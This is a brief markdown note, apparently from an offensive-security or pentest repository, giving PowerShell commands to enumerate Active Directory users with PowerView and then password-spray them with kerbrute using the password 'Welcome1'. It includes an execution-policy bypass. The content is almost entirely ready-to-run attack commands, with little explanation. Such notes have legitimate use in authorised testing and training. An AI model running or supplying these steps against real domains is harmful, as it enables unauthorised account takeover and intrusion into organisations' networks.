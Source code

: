 #  We will gather AD_Users using PowerView then passwordspray with kerbrute
On Powershell
```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\PowerView.ps1
Get-DomainUser * | Select-Object -ExpandProperty samaccountname | Foreach {$_.TrimEnd()} |Set-Content adusers.txt
Get-Content .\adusers.txt | select -First 10
```
Using Kerbrute with testing week credits 'Welcome1'

```powershell
.\kerbrute.exe passwordspray -d DOMAIN.LOCAL .\adusers.txt Welcome1
```
